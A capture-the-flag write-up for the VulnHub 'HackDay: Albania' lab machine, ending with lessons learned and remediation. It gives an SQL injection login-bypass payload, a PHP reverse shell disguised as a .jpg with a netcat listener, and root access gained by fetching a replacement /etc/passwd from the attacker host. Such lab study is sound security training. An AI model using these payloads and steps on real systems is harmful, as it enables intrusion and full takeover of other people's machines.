



# HackDay: Albania — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.127 (host-only) |
| **Difficulty** | Beginner–Intermediate |
| **OS** | Linux |
| **Root Flag** | Captured (value in screenshot) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/hackday-albania,167/) |

## Attack Summary

nmap (port 8008) → robots.txt → `/unisxcudkqjydw/vulnbank/client` → SQL injection login bypass → file upload (PHP shell as `.jpg`) → reverse shell → writable `/etc/passwd` → add root user → root

## Methodology

1. Network discovery
2. Web enumeration on port 8008 — robots.txt analysis
3. Bank login portal discovery
4. SQL injection authentication bypass
5. PHP reverse shell upload via support form
6. Privilege escalation via writable `/etc/passwd`

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.127
```

Key findings:
- Port 22: SSH
- Port 8008: HTTP


---

## Step 2: Web Enumeration

Browse to `http://192.168.1.127:8008`. The page shows a message in Albanian that roughly translates to "if I am, I know where to go :)".

Check `robots.txt`:

```bash
curl http://192.168.1.127:8008/robots.txt
```

Among the 26 disallowed entries, navigate `/unisxcudkqjydw/` which links to `/vulnbank/`. Follow the path to:

```
http://192.168.1.127:8008/unisxcudkqjydw/vulnbank/client
```

A bank login portal appears.


---

## Step 3: SQL Injection — Login Bypass

The login form is vulnerable to classic SQL injection:

```
Username: ' or 'a' = 'a' --
Password: #
```

The query becomes:
```sql
SELECT * FROM users WHERE username='' or 'a'='a' --' AND password='#'
```

Authentication succeeds and reveals a "Contact Support" page with a file upload feature.



---

## Step 4: PHP Reverse Shell Upload

The upload form accepts file attachments. Rename a PHP reverse shell to bypass extension filters:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.jpg
# Edit the file: set $ip = '192.168.1.128'; $port = 1234;
```

Start a listener:

```bash
nc -lvp 1234
```

Upload `shell.jpg` through the support form. The server executes it on upload/view.



---

## Step 5: Privilege Escalation — Writable `/etc/passwd`

Check `/etc/passwd` permissions:

```bash
ls -al /etc/passwd
# -rw-rw-rw- 1 root root ...
```

The file is world-writable. Generate a new password hash:

```bash
# On attacker machine:
openssl passwd -1 -salt ignite pass123
# Output: $1$ignite$...
```

Serve a modified `/etc/passwd`:

```bash
# On attacker machine:
python3 -m http.server 80
```

On the target:

```bash
cd /tmp
wget http://192.168.1.128/passwd
cp passwd /etc/passwd
su raj         # password: pass123
cd /root
cat flag.txt
```



---

## Lessons Learned

1. **SQL injection in login forms** — parameterized queries prevent all classic bypass payloads
2. **File upload with weak extension filtering** — rename `.php` to `.jpg` bypasses extension checks; validate MIME type and content
3. **World-writable `/etc/passwd`** — never allow write access to `/etc/passwd` for non-root users
4. **Sensitive paths in robots.txt** — `robots.txt` is public; listing hidden paths aids attackers

## Remediation

| Vulnerability | Fix |
|---|---|
| SQL injection | Use prepared statements / parameterized queries |
| Unrestricted file upload | Validate file type by content (magic bytes), not extension |
| Writable `/etc/passwd` | `chmod 644 /etc/passwd` and audit with `find / -perm -o+w` |
| robots.txt information disclosure | Do not list sensitive paths in robots.txt |
